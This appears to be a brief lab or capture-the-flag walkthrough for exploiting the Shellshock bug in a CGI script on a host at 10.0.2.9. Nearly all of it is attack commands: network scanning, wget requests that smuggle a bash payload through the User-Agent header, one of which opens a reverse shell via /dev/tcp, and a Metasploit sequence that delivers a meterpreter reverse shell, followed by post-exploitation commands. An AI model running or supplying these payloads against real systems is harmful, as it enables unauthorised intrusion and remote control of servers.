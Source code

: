 ## Attacker dependencies 
- arp-scan
- nmap 
- nikto 
- metasploit
- 
## Commands 
- sudo arp-scan -local
- nmap -p- -sV 10.0.2.9
- wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -c 'echo vulnerable'" http://10.0.2.9/cgi-bin/status
- wget -U "() { test;};echo \"Content-type: text/plain\"; echo; /bin/bash -i >& /dev/tcp/10.0.2.9/5555 0>&1" http://10.0.2.9/cgi-bin/status


## msfconsole
- search shellshock
- use exploit/multi/http/apache_mod_cgi_bash_env_exec
- set rhosts 10.0.2.9
- set TARGETURI /cgi-bin/status
- check
- show payloads
- set payload linux/x86/meterpreter/reverse_tcp
- exploit

### When inside
getuid
pwd
ifconfig
sysinfo
shell











